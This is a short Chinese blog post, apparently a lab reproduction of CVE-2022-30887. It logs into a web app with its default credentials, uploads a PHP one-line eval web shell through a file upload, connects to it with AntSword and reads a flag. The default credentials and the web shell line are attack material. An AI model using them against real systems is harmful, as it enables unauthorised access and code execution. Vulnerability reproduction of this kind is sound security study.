 ```yaml
---
title: CVE-2022-30887
subtitle:
date: 2025-03-14T13:09:16+08:00
slug: 7a7f065
draft: false
author:
  name: T1ng
  link:
  email:
  avatar: /images/avater.jpg
description:
keywords:
license:
comment: false
weight: 0
tags:
  - CVE
categories:
  - 复现
hiddenFromHomePage: false
hiddenFromSearch: false
hiddenFromRelated: false
hiddenFromFeed: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: true
  url:

# See details front matter: https://fixit.lruihao.cn/documentation/content-management/introduction/#front-matter
---
```


<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: `![alt](images/screenshot.jpg)`. -->



![](images/529b7081391a3f3103fe3aadd4560b8c.png)

查看发现默认账号密码是

```
账号：mayuri.infospace@gmail.com
密码：mayurik
```



![](images/875cb9aebbbf498cb4466a6802afa712.png)

成功登录

![](images/6b0a7c771f6457457c92a39151f715dd.png)



发现文件上传，尝试上传一句话木马

![](images/12b6132cdc59d3475f338ba7c8c84130.png)



``` Php
<?php @eval($_POST['t1ng']);?>
```



![](images/82e9dbe9d0db0c67356f3c67ab725201.png)

用蚁剑进行连接

![](images/3524f32c8d49aed457eadbbee07b5fce.png)

查看目录找到flag

![](images/c78b26e371e7355a9b35b0dbe678ec18.png)

